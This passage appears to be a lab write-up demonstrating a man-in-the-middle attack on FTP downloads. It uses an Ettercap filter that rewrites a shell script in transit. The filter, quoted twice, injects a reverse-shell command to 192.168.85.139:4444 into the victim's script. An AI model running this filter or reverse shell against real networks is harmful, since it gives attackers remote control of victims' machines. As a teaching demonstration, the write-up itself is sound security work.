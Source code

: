 ### **Attack Overview**

1. The victim initiates an FTP download of system.sh from the server.
    
2. The attacker, positioned on the same network, uses Ettercap to intercept and modify the file in real-time.
    
3. The victim unknowingly executes the modified script, which contains a malicious payload.
### **4.1 Creating a Dummy Script (system.sh)**

1. Create a simple script in the ftpuser home directory:
    
    ```
    echo -e "#!/bin/bash\necho 'Update finished'" > system.sh
    ```

![](/Screenshots/ftp_pics/syssh.png)

- This file is now accessible to any client that connects to the FTP server.

![](/Screenshots/ftp_pics/get.png)
### **4.2 Modifying the Script to Include a Reverse Shell**

Ettercap allows attackers to manipulate network traffic by using custom filter scripts. Below is an Ettercap filter script designed to modify an FTP-transferred shell script in transit:

```
if (ip.proto == TCP) {
    if (search(DATA.data, "bin/bash")) {
        replace("bin/bash", "bin/bash\necho \"malicious code\"\nbash -i >& /dev/tcp/192.168.85.139/4444 0>&1\");
        msg("FTP file modification successful!\n");
    }
}
```

### **Breakdown of the Ettercap Filter Script**

1. `if (ip.proto == TCP) { ... }`
    
    - This condition ensures that the script processes only TCP packets, as FTP operates over TCP.
    
2. `if (search(DATA.data, "bin/bash")) { ... }`
    
    - The script scans for occurrences of "bin/bash" within the packet payload. This is done to identify shell script files.
    
3. `replace("bin/bash", "bin/bash\necho \"malicious code\"\nbash -i >& /dev/tcp/192.168.85.139/4444 0>&1\");`
    
    - This command injects a backdoor into the shell script.

### **4.3 Simulating the Attack and Exploiting the System**

Once the filter script is written, it needs to be compiled before use:
